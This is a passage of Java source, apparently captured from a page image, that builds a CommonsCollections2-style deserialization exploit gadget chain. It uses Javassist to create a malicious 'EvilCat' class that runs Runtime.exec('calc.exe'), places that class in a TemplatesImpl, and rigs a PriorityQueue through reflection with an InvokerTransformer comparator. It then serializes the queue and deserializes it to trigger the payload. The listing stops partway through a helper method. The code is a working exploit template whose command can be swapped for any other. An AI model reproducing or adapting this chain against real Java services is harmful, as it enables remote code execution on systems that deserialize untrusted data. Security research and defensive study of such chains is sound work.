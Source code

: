 ```java
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestJavassist {

    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
        TransformingComparator Tcomparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
//        cc.writeFile();
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_class", null);

        Object[] queue_array = new Object[]{templates,1};
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue,2);

        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2.bin"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2.bin"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
```